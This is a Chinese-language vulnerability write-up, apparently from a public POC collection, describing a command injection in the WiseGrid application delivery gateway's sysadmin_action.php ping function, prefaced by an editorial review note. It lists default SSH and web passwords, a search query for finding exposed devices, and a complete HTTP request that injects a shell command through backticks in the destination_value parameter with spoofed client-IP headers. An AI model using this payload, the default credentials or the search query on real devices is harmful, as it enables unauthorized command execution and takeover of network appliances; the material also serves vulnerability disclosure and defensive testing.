


# 信诺瑞得 WiseGrid慧敏应用交付网关 sysadmin_action.php 后台命令执行漏洞

<!-- article-review:devices:begin -->
## 技术校订与证据边界（2026-10-02）

- 产品/组件：信诺瑞得WiseGrid
- 本文讨论：sysadmin_action.php ping destination_value命令替换
- 版本、权限与配置前提：后台superadmin，示例Cookie V4.2.2R_17322；默认口令只是选项
- 资料类型：后台命令注入PoC；本次仅核对归档正文，未执行 PoC、未请求目标，未把原作者的“复现成功”继承为本库验证结果

### 逐项校订

- 影响版本未提取Cookie中具体版本，默认SSH/root条件与Web漏洞应分开
- 带4伪造IP头是否必要不清
- 存在空`&#33;[]()`但另两图路径存在，不能归为仓库缺图片
- 已落实的文本修订：HTTP 报文围栏改为 http。上列仍描述旧文问题时，以此落实项及下列限定为准；修订不代表运行验证

### 操作风险与恢复

- 执行文中载荷可能以目标进程权限启动命令或加载代码；权限受认证角色、操作系统账户及依赖版本约束，不能把 root/200 等通用字符串当成功证据

### 待核与来源

- root实际输出和默认口令适用范围待核
- 引用图片未查看，截图内容及有效性待核验
- 文内原始链接和图片引用继续保留；未检查图片像素、未下载或执行外部附件。版本边界、修复/在野状态及厂商归属若缺一手依据，均不能视为本次已确认
- 下方保留原技术正文与载荷；其中历史时间表述和成功主张应按本节限定阅读
<!-- article-review:devices:end -->


## 漏洞描述

信诺瑞得 WiseGrid慧敏应用交付网关 sysadmin_action.php 对应的ping功能存在后台命令执行漏洞，通过默认口令可以获取系统权限

## 漏洞影响

```
信诺瑞得 WiseGrid慧敏应用交付网关
```

## 网络测绘

```
app="WiseGrid慧敏应用交付网关"
```

## 漏洞复现

登录页面



默认口令

```
ssh：root/sinogrid
web: admin/sinogrid
```

```http
POST /bin/sysadmin_action.php?action=getinfo&operation=ping&destination_value=`id`&ping_count=3&sar_value=3&netstat_value=tcp&interface= HTTP/1.1
Host: 
Cookie: PHPSESSID=4510o12llugti8k4f24971rdf2; funcs=NNN; appversion=WiseGrid-V4.2.2R_17322; hbstate=alone; username=admin; passwordmd5=ef9ffdf6c1e2fe91d4e14b30323fb771; role=superadmin; authmode=LOCAL; session_time=1639643323; lang=zh; declaration=1; needSyn=false
Content-Length: 0
Sec-Ch-Ua: " Not A;Brand";v="99", "Chromium";v="96", "Google Chrome";v="96"
Accept: */*
X-Requested-With: XMLHttpRequest
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.110 Safari/537.36
Sec-Ch-Ua-Platform: "macOS"
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
X-Forwarded-For: 127.0.0.1
X-Originating-Ip: 127.0.0.1
X-Remote-Ip: 127.0.0.1
X-Remote-Addr: 127.0.0.1
Connection: close
```



``


> 资源说明：此处原归档的图片地址为空，以上保留原始占位语法；无法据此判断图片内容，未猜补地址。


---

> 来源：Threekiii/Awesome-POC
